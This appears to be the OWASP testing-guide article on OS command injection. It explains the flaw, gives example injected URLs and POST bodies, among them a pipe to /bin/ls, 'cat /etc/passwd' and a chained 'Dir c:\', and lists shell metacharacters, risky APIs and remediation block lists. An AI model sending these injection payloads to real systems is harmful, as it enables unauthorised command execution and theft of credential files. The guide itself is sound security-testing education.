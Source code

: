# Testing for Command Injection

## Summary

This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.

OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

## How to Test

When viewing a file in a web application, the file name is often shown in the URL. Perl allows piping data from a process into an open statement. The user can simply append the Pipe symbol `|` onto the end of the file name.

Example URL before alteration:

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Example URL modified:

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

This will execute the command `/bin/ls`.

Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. `%3B` is url encoded and decodes to semicolon

Example:

`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`

### Example

Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up a personal proxy (such as ZAP or Burp Suite), you can obtain a POST HTTP like the following:

```txt
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following:

```txt
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

If the application doesn't validate the request, we can obtain the following result:

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

In this case, we have successfully performed an OS injection attack.

## Special Characters for Comand Injection

The following special character can be used for command injection such as `|` `;` `&` `$` `>` `<` `'` `!`

- `cmd1|cmd2` : Uses of `|` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1;cmd2` : Uses of `;` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1||cmd2` : Command 2 will only be executed if command 1 execution fails.
- `cmd1&&cmd2` : Command 2 will only be executed if command 1 execution succeeds.
- `$(cmd)` : For example, `echo $(whoami)` or `$(touch test.sh; echo 'ls' > test.sh)`
- `cmd` : It's used to execute specific command. For example, `whoami`
- `>(cmd)`: `>(ls)`
- `<(cmd)`: `<(ls)`

## Code Review Dangerous API

Be aware of the uses of following API as it may introduce the command injection risks.

### Java

- `Runtime.exec()`

### C/C++

- `system`
- `exec`
- `ShellExecute`

### Python

- `exec`
- `eval`
- `os.system`
- `os.popen`
- `subprocess.popen`
- `subprocess.call`

### PHP

- `system`
- `shell_exec`
- `exec`
- `proc_open`
- `eval`

### Remediation

#### Sanitization

The URL and form data needs to be sanitized for invalid characters. A blacklist of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet. A whitelist containing only allowable characters or command list should be created to validate the user input. Characters that were missed, as well as undiscovered threats, should be eliminated by this list.

General blacklist to be included for command injection can be `|` `;` `&` `$` `>` `<` `'` `\` `!` `>>` `#`

Escape or filter special characters for windows,   `(` `)` `<` `>` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `^` `~` `!` `.` `”` `%` `@` `/` `\` `:` `+` `,`  ``` ` ```
Escape or filter special characters for Linux, `{` `}` `(` `)` `>` `<` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `$` `–` `#` `~` `!` `.` `”` `%`  `/` `\` `:` `+` `,` ``` ` ```

### Permissions

The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all this information to test from a gray-box testing point of view.

## Tools

- OWASP [WebGoat](https://owasp.org/www-project-webgoat/)
- [Commix](https://github.com/commixproject/commix)

## References

- [Penetration Testing for Web Applications (Part Two)](https://www.symantec.com/connect/articles/penetration-testing-web-applications-part-two)
- [OS Commanding](http://projects.webappsec.org/w/page/13246950/OS%20Commanding)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
- [ENV33-C. Do not call system()](https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=2130132)
